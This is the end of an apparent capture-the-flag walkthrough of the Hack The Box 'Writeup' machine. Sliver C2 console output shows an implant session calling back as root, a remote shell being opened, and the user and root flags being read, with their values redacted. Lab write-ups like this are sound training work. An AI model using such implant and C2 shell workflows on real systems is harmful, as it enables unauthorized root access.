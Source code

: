 Alright, I had to do this a few times because it kept disappearing... wondering if that cron job is to blame... hmmm.. anyway, after quickly adding the implant then relogging back into the machine we got our root shell!

``` bash
sliver > jobs

ID  Name  Protocol  Port  
==  ====  ========  ====  
1   mtls  tcp       8888  

sliver > sessions

[*] No sessions 🙁

[*] Session #1 writeup - 10.10.10.138:57952 (writeup) - linux/amd64 - Sat, 24 Jul 2021 21:47:13 CDT

sliver > sessions

ID  Name            Transport  Remote Address      Hostname  Username  Operating System  Last Check-in                  Health                
==  ====            =========  ==============      ========  ========  ================  =============                  ======                
1   writeup  mtls       10.10.10.138:57952  writeup   root      linux/amd64       Sat, 24 Jul 2021 21:47:13 CDT  [ALIVE]  

sliver > use 1

[*] Active session writeup (1)

sliver (writeup) > whoami

root

sliver (writeup) > shell

? This action is bad OPSEC, are you an adult? Yes
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 3368

root@writeup:/# cat /home/jkr/user.txt 
d4e493<-- REDACTED -->
root@writeup:/# cat /root/root.txt 
eeba47<-- REDACTED -->
root@writeup:/# 
```

There we have it! Got both flags and learned something along the way. Thanks for reading! :)

